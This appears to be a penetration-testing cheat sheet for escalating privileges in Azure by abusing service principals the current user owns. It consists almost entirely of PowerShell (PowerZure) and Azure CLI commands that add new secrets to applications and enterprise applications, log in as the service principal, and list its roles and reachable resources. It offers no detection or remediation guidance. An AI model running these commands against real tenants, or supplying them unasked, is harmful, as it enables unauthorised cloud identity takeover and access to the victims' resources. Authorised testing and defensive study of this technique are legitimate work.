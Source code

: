 # Misconfigured Service Principals Privesc

### Tools: Powerzure

## Steps:

#### 1) Import Powerzure module

    Import-Module Powerzure.ps1 

#### 2) Verify whether the current user is assigned as the owner of a service principal

    Get-AzureAppOwner 

#### 3) Add a new secret to APP_NAME to allow us to authenticate with the app

    Add-AzureSPSecret -ApplicationName APP_NAME -Password PASSWORD 

    $Credential = Get-Credential

    Connect-AzAccount -Credential $Credential -Tenant TENANT_ID -ServicePrincipal (Windows Powershell)

## OR

    az login --service-principal --username APP_ID --password PASSWORD --tenant TENANT_ID (Azure CLI)

## NOTE: Don't forget to make a note of the APP_ID to authenticate as the service principal!

#### 4) Verify the role assignment and scope of the service principal

    az role assignment list --assignee APP_ID --include-groups --include-inherited --query '[].{username:principalName, role:roleDefinitionName, usertype:principalType, scope:scope}' 

# Add credentials to enterprise applications

To add credentials (application passwords) to enterprise applications in Azure, follow these steps and commands:

### 1) Check if Secrets can be added

    . .\Add-AzADAppSecret.ps1
    Add-AzADAppSecret -GraphToken $graphtoken -Verbose

### 2) Use the Secret to authenticate as Service Principal

    $password = ConvertTo-SecureString '<SECRET>' -AsPlainText -Force
    $creds = New-Object System.Management.Automation.PSCredential('<ACCOUNT ID>', $password)

    Connect-AzAccount -ServicePrincipal -Credential $creds -Tenant <TENANT ID>

### 3) Check what resources Service Principal can access

    Get-AzResource

    
